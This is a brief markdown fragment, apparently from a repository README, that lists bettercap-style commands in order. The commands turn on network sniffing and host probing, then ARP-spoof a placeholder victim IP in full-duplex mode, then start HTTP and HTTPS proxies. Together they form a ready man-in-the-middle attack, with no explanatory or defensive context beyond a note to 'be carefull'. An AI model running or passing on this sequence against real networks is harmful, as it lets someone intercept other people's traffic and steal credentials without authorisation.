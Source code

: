 `net.sniff on`

`net.probe on`

`net.show`

`set arp.spoof.fullduplex true` (be carefull)

`set arp.spoof.targets <victime_IP_address>`

`arp.spoof on`

`http.proxy on`

`https.proxy on`